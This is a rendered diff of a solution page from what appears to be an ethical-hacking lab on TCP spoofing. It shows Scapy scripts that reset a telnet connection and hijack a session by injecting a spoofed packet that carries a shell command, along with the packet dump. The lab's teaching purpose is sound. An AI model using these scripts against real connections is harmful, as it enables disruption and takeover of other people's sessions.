

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -153,7 +153,7 @@ def sendrst(pkt):
         sp = pkt[TCP].sport
         seq_n = pkt[TCP].seq
         payload_l = len(pkt[TCP].payload)
-        tot_seq = seq_n+payload_l
+        tot_seq = seq_n+payload_l #IMPORTANT
         tcp = TCP(sport=sp, dport=23, flags="R", seq=tot_seq, ack=0)
 
         pkt = ip/tcp
@@ -192,25 +192,20 @@ root@472341f5fb4b:/#
 
 ## Manual
 
-To Hijack an existing connection we first sniff with wireshark needed information (ports, flags, seq and ack numbers).
+To hijack an existing connection we first sniff with Wireshark the needed informations (ports, flags, SEQ and ACK numbers).
 
 First, we want to get the **Sequence Number**: we look for the last packet sent from the client (10.9.0.6) to the server (10.9.0.5) with flags `PSH/ACK` and get both the SEQ number and the size of the payload.
 
 Then we need to find the **Acknowledgment Number**: we look for the last packet in that same direction, but with flag `ACK`, and we get the ACK number.
 
 ```py
-#!/usr/bin/env python3
-
+ #!/usr/bin/env python3
 from scapy.all import *
 
+data = "echo nano > /home/seed/prova.txt \r\n"
 ip = IP(src="10.9.0.6", dst="10.9.0.5")
+tcp = TCP(sport=58264, dport=23, flags="A", seq=757678758, ack=2218560972)
 
-# SEQ: seq number (raw) in the the last PSH/ACK packet sent in that direction (in this case from 10.9.0.6 to 10.9.0.5) + size of data/payload in that packet.
-
-# ACK: ack number (raw) in the last ACK packet sent in that direction.
-
-tcp = TCP(sport=SRCPORT, dport=23, flags="PA", seq=SEQNUM, ack=ACKNUM)
-data = "echo hacked > /home/seed/hacked.txt\r\n"
 pkt = ip/tcp/data
 ls(pkt)
 send(pkt,verbose=0)
@@ -234,10 +229,10 @@ src        : SourceIPField                       = '10.9.0.6'      (None)
 dst        : DestIPField                         = '10.9.0.5'      (None)
 options    : PacketListField                     = []              ([])
 --
-sport      : ShortEnumField                      = 47640           (20)
+sport      : ShortEnumField                      = 58264           (20)
 dport      : ShortEnumField                      = 23              (80)
-seq        : IntField                            = 148153676       (0)
-ack        : IntField                            = 525521666       (0)
+seq        : IntField                            = 757678758       (0)
+ack        : IntField                            = 2218560972      (0)
 dataofs    : BitField  (4 bits)                  = None            (None)
 reserved   : BitField  (3 bits)                  = 0               (0)
 flags      : FlagsField  (9 bits)                = <Flag 24 (PA)>  (<Flag 2 (S)>)
````
